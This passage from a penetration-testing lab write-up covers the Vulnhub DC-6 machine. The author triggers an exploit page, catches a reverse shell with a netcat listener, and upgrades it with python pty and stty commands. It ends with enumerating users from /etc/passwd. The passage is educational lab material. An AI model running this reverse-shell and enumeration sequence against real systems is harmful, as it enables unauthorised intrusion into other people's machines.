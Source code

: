 
Save the changes and open the exploit. 
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-6]
└─$ firefox 45274.html &                            
[1] 516249

```
The browser opens the exploit webpage. Before hitting the `submit` button, we have to start a netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-6]
└─$ nc -lvp 9999   
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
```

![Image](/assets/img/WriteUp/Vulnhub/DC6/Pasted image 20230327211137.png){: width="700" height="400" }

Now we should hit the `submit` button.

## Initial access
Let's check the netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-6]
└─$ nc -lvp 9999   
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.0.2.36.
Ncat: Connection from 10.0.2.36:55752.

```
We got a reverse shell, now we have to upgrade the shell.
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@dc-6:/var/www/html/wp-admin$ 
www-data@dc-6:/var/www/html/wp-admin$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
<l/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
www-data@dc-6:/var/www/html/wp-admin$ export TERM=xterm-256color  
export TERM=xterm-256color  
www-data@dc-6:/var/www/html/wp-admin$ alias ll='ls -lsaht --color=auto'  
alias ll='ls -lsaht --color=auto'  
```
We are almost there with upgrading the shell, we have to hit the `CTRL + Z` combination to put it in background.
```bash
www-data@dc-6:/var/www/html/wp-admin$ ^Z
zsh: suspended  nc -lvp 9999
```
Now we have to do our last steps in upgrading the shell.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-6]
└─$ stty raw -echo ; fg ; reset  
[1]  + continued  nc -lvp 9999

www-data@dc-6:/var/www/html/wp-admin$ stty columns 200 rows 200
www-data@dc-6:/var/www/html/wp-admin$ 
```
So now we have a pseudo TTY. Let's continue with enumerating.
```bash
www-data@dc-6:/var/www/html/wp-admin$ awk -F: '($3>=1000)&&($1!="nobody"){print $1}' /etc/passwd
graham
mark
```